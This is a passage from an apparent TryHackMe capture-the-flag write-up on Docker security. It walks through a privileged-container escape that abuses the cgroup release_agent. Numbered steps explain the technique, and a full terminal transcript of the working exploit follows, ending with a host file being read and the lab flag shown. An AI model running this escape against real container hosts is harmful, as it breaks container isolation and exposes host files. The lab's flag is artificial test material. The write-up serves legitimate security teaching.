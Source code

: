 9.4.2. For our exploit to execute, we'll need to tell Kernel to run our code. By adding "1" to "/tmp/cgrp/x/notify_on_release", we're telling the kernel to execute something once the "cgroup" finishes. ([Paul Menage., 2004](https://www.kernel.org/doc/Documentation/cgroup-v1/cgroups.txt))

9.4.3. We find out where the containers files are stored on the host and store it as a variable

9.4.4. Where we then echo the location of the containers files into our "/exploit" and then ultimately to the "release_agent" which is what will be executed by the "cgroup" once it is released.

9.4.5. Let's turn our exploit into a shell on the host

9.4.6. Execute a command to echo the host flag into a file named "flag.txt" in the container, once "/exploit" is executed

9.4.7. Make our exploit executable!

9.4.8. We create a process and store that into "/tmp/cgrp/x/cgroup.procs"

9.5. Loot:

![](https://assets.tryhackme.com/additional/docker-rodeo/privileged-container/exploit1.png)

Logging into the new Instance as "root" and executing the code snippet, resulting in container escape.

![](https://assets.tryhackme.com/additional/docker-rodeo/privileged-container/exploit2.png)

Showing that the command we executed (/exploit) has grabbed the file from the host operating system.

Contents of "flag.txt" from the host operating system

```
root@8a9427527c82:~# mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
root@8a9427527c82:~# echo 1 > /tmp/cgrp/x/notify_on_release
root@8a9427527c82:~# host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
root@8a9427527c82:~# echo "$host_path/exploit" > /tmp/cgrp/release_agent
root@8a9427527c82:~# echo '#!/bin/sh' > /exploit
root@8a9427527c82:~# echo "cat /home/cmnatic/flag.txt > $host_path/flag.txt" >> /exploit
root@8a9427527c82:~# chmod a+x /exploit
root@8a9427527c82:~# sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
root@8a9427527c82:~# cd /
root@8a9427527c82:/# ls
bin  boot  dev  etc  exploit  flag.txt  home  lib  lib64  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
root@8a9427527c82:/# cat flag.txt 
thm{you_escaped_the_chains}
root@8a9427527c82:/# 
```

`thm{you_escaped_the_chains}`

## Task 12 10. Securing Your Container

Let's reflect back on the vulnerabilities that we have exploited. Not only have we learnt about the technology that is containerization, but also how these containers are a mere abstraction of the host's operating system.

